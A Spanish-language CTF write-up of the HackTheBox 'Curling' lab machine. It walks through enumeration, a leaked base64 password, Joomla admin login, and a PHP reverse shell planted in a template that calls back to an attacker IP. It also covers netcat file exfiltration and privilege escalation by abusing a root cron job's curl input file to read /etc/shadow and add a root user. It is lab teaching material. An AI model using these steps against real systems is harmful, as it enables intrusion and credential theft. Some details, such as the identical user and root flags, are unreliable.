










title: [Writeup] HackTheBox: Curling
tags: cft, hackthebox, writeup, curling
slug: htb-curling-writeup
date: 2019-12-10



Disclaimer: My first box ever.

Primero podemos hacer una simple enumeración de la máquina para ver los servicios corriendo allí y similares.

Con Nmap en mi caso fue como sigue

```
nmap -sV -sC -oA curling 10.10.10.150
```



Vemos que tenemos un servidor ssh coriendo en la maquina y un servidor Apache con un sitio web que usa Joomla. Intenté hacer fuerza bruta al servidor ssh y fracasé miserablemente. 

No obstante, podemos echarle un ojo al sitio web y hacer el típico "Click derecho > Ver código fuente" ya que es algo usual en este tipo de retos que haya una pista allí. En el código fuente casi al final del sitio antes del `</html>` podemos ver una pista como se muestra abajo.

```HTML
</body>
      <!-- secret.txt -->
</html>
```

Probamos en el navegador web yendo a `10.10.10.150/secret.txt`, en mi caso. Efectivamente, el archivo existe y contiene lo que parece ser una texto codificado en base64, ¿Será una contraseña?

```bash
wget 10.10.10.150/secret.txt
cat secret.txt
```

```
Q3VybGluZzIwMTgh
```

Probamos decodificarlo a ver que dice

```bash
echo "Q3VybGluZzIwMTgh" | base64 -d
```

```
Curling2018!
```

Nos arroja el resultado arriba lo que sí parece ser una contraseña.

De vuelta a la raíz del sitio web podemos ver en algunos lados palabras como "pebble", "curling2018!" y el usuario "Floris". Como ya sabemos que el sitio web usa Joomla por los resultados de Nmap y otras cosas (como el icono del sitio web) nos vamos al panel de administración en `http://10.10.10.150/administrator/`.


Luego de probar con el usuario "Floris" y la contraseña arriba y fracasar probamos con el mismo usuario pero todo en minúsculas y la misma contraseña y ya estamos dentro!


```
Usuario: floris
Contraseña: Curling2018!
```



Ya estamos dentro de Joomla, ahora hay que idear una manera para obtener una shell. Para este caso lo haremos de la siguiente manera:

1. Ir a Extensions > Templates > Templates
2. Le damos click a un template cualquiera
3. Seleccionamos un archivo como `error.php`



4. Reemplazamos todo el contenido de ese archivo con el contenido de esta shell en php [php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Es una buena idea revisar 
5. Es una buena idea revisar el código de la shell. Para nuestro caso debemos modificar la variable `$ip` en ese archivo y poner el valor de nuestra IP local en la red, podemos dejar `%port` tal cual esta. Presionamos `Save`, por supuesto.


```php
$ip = '10.10.13.129';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

6. Ahora ponemos en nuestra máquina ncat a escuchar en el puerto `1234`

```bash
nc -vlp 1234
```
7. Vamos al directorio de templates de Joomla hacia el template y archivo que modificamos directamente en el navegador

```
http://10.10.10.150/templates/beez3/error.php
```

Y nos vamos a nuestra terminal donde esta ncat corriendo en el puerto `1234`.


Perfecto, ya tenemos una reverse shell!

*Nota: Resolver el problema de tty que dice arriba con `/usr/bin/python3.6m -c 'import pty; pty.spawn("/bin/bash")'`*.

Veamos que podemos obtener sin ser root. 




Ese archivo `password_backup` aunque dice ser archivo regular más bien parece ocultar algo. El archivo comienza con el texto `BZh91AY&SY`, el cual es un encabezado de los archivos `bzip2` si no me equivoco. 

Ahora vamos a pasar el archivo a nuestra maquina para inspeccionarlo  con `binwalk` a ver que encontramos

Atacante:
```
nc -lvp 7777 > password_backup
```


Victima:

 ```
 nc 10.10.13.129 7777 < password_backup
```


Oh, es un archivo comprimido bzip2. A descomprimirlo!

```bash
xxd -r password_backup > backup
bzip2 -d backup
mv backup.out backup.gz
gunzip backup.gz
tar xvf backup
```

El último comando, el `tar xvf`, da como resultado el archivo

```
password.txt
```


Ok, ahora probemos en la shell con usuario floris y esa password tal cual.



user.txt
```
82c198ab6fc5365fdc6da2ee5c26064a
```

Bien! Ahora a buscar la forma de hacernos root!



Parecería como que usando `cURL` cada cierto tiempo (~x segundos) acceden a la `URL` en el archivo "input" y con el resultado llenan el archivo "report".

Probemos. Sobreescrimos el archivo `/home/floris/admin-area/input` como se muestra debajo

```
echo "url = file:///127.0.0.1/../../../root/root.txt" > input
```

Monitoreamos hasta que sea leído por lo que sea que este leyendo el archivo y escribiendo a "report". Luego que notemos haya sido modificado el hash de root debería estar en el archivo "report".



root.txt
```
82c198ab6fc5365fdc6da2ee5c26064a
```

## Obteniendo accesos como root

Hace un tiempo largo que trabajé en esta máquina antes de terminar el writeup, así que me faltan apuntes e imágenes y demás. Pero para obtener acceso como root, ya que la flag de root para los puntos en HackTheBox la obtuve como mostré antes, obtuve el archivo `/etc/passwd` y el `/etc/shadow` usando la misma técnica que usé para obtener la flag de root.txt. 

Para el `passwd`:

```
url = file:///etc/passwd
```

Para el `shadow`:

```
url = file:///etc/passwd
```

Envié ambos archivos a mi máquina atacante para poder modificarlo más cómodo y así agregar un usuario con permisos de root, al cual llamé `domi`. Utilizé la técnica descrita en [Manually Editing User inside /etc/passwd File](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/), (la sección del mismo nombre que el link aquí). Es básicamente, sólo agregar el usuario al `passwd` duplicando la linea de `root` y cambiando el nombre, luego generar una password con el cifrado correcto usando `OpenSSL`.



Para terminar muestro el job de crontab que tomaba el archivo `input` y generaba el `report`, en la imágen siguiente.




